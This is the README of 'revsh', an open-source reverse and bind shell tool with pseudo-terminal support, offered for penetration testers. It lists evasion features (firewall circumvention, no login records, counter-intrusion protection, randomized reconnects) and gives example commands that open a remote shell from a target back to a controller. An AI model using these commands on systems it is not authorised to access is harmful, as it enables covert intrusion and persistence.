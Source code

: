 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

    empty@monkey:~$ revsh -h

    usage: revsh [-c [-a] [-s SHELL] [-d KEYS_DIR] [-f RC_FILE]] [-b [-k]] [-t SEC] [-r SEC1[,SEC2]] [ADDRESS:PORT]
    
    -c            Run in controller mode.                        (Default is target mode.)
    -a            Enable Anonymous Diffie-Hellman mode.          (Default is "!ADH:DHE-RSA-AES256-SHA".)
    -s SHELL      Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
    -d KEYS_DIR   Reference the keys in an alternate directory.  (Default is ".revsh/keys/".)
    -f RC_FILE    Reference an alternate rc file.                (Default is ".revsh/rc".)
    -t SEC        Set the connection timeout to SEC seconds.     (Default is "3600".)
    -r SEC1,SEC2  Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
                  to be random in the range from SEC1 to SEC2.
    -b            Start in bind shell mode.                      (Default is reverse shell mode.)
    -k            Start the bind shell in keep-alive mode.       (Ignored in reverse shell mode.)
    -h            Print this help.
    ADDRESS:PORT  The address and port of the listening socket.  (Default is "127.0.0.1:9999".)
 
    Notes:
      * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
      * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
 
    Example:
      local controller host:  revsh -c 192.168.0.42:443
      remote target host:     revsh 192.168.0.42:443



## Example ##

First, setup the local host to be the control host:

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host:

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner.

Local control host:

	empty@monkey:~$ revsh -c

Remote target host:

	target@kitty:~$ ./revsh


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

